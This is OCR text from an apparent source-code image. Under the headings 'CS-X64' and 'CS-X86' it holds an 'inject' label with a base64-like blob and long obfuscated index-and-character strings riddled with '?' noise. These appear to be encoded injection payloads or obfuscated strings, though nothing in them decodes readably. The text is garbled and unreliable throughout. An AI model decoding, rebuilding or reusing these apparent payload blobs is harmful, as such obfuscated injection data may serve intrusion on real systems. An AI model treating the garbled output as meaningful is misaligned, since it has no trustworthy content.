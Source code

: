 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86



admins3???4|2,?w;6,B?;10?,a;?14,.;?18,??5;2?2???,0;??2????6,b??;30??,0;???34????,3;3??8????,e;????42??,m;???46,i??;50,R??;???54?,R;??58,H;????62?,0;6?6,g;????70,??%;74??,V;78??,W;82??,V;86???,j;???90,??%;???94??,x?;98,??b?;???1???02?,b;1???0?6,c;1????1????0,g;??11??4,L;1??18??,b;??122,??t;?126,h??;????130,u?;134,???m;|hA??r??wC?0h????B6m?la9???YY.??xy???C5z???U2???0?0LA???bvh?I0??xDn???3CL????Me?V???nBmr????NLi????NBqRy???U2R?T9???lH1??0???50gD???vgD??Ze%Vn?DV5w0??W????wlvV??zUYj?09z%???n????x????0x3lj?bzL??NbV?m?AcvgH?ghz??mL?BVwb?PfB????t??9???IThxE????r??uCL3m?=qqregred

chasn36|?2,d;6????,W;10?,N????;14,o???;18??,n;???22???,X;2???6,0;??30,R;????34,???c;38???,l????;42,n?;?46,,;????5????0,????z;54?,x;?58??,x;??62?,w;6??6,???b;????70,?a;7???4,L???;78,P?;82???,f;86?,P;???90,q???;94,F?;98??,2????;1???02??,6;1??0???6,??C;11??0,T;1????14,?Y;????118,???M????;122,?y;??126,D????;???1?30,?z;13?4?,n;1??3???8??,9;14????2,?d;?|h???ArdC0?hW6??mlN9Y????Yoxy?Cn?zU2X0?L??A????0??vhIRx????Dn??cC???LMl??VnB?nr??NL,????NBqzy??U???2xT9?lxn3L??ww??BfbD?Yha?ObB????Lj3???LP2????l????XfyP2?PUvC?qu2????VFMC????v2C???M????Y6O9z?CfwKT???YC9?YyT???wMU??Ll??yz3H?D????gBLz???lKMnH?rD9=?a=??derihsv
